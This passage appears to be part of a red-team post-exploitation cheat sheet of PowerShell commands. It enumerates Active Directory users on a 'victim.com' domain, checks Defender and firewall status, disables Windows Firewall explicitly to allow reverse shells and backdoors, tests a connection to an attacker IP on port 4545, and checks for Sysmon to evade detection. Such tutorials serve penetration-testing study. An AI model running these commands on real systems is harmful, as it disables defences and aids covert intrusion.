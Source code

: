 In the example below, we retrieve all users who are part of the `users` group in the domain `victim.com`

```
Get-ADUser -Filter * -SearchBase "CN=Users,DC=victim,DC=COM"
```

#### Checking If windows defender server is open \[1]

```
Get-Service WinDefend
```

#### Checking If windows defender server is open \[2]

```
Get-MpComputerStatus | select RealTimeProtectionEnable
```

#### Checking the status of Windows Firewall

```
Get-NetFirewallProfile | Format-Table Name, Enabled
```

#### Disabling Windows Firewall

Obviously to be able to effortlessly control the machine with reverse shells and backdoors, we need to disable the windows firewall

```
Set-NetFirewallProfile -Profile Domain, Public, Private -Enabled False
```

#### Retrieve all windows firewall rules

Very beneficial if you want to determine the status of a port and whethere you can use it to open a communication channnel with your attacking servers.

```
Get-NetFirewallRule | select DisplayName, Enabled, Description
```

Then you can test a connection on a specific port such as 4545

```
Test-NetConnection -ComputerName [attacker-ip] -Port 4545
```

#### Discover if sysmon is installed or running

Sysmon gathers and logs events once installed . These logs indicators can significantly help system administrators and blue teamers to track and investigate malicious activity and help with general troubleshooting. As a red teamer, one of the primary goals is to stay undetectable, so it is essential to be aware of these tools and avoid causing generating and alerting events \[1]

```
PS C:\Users\admin> Get-Process | Where-Object { $_.ProcessName -eq "Sysmon" }
```
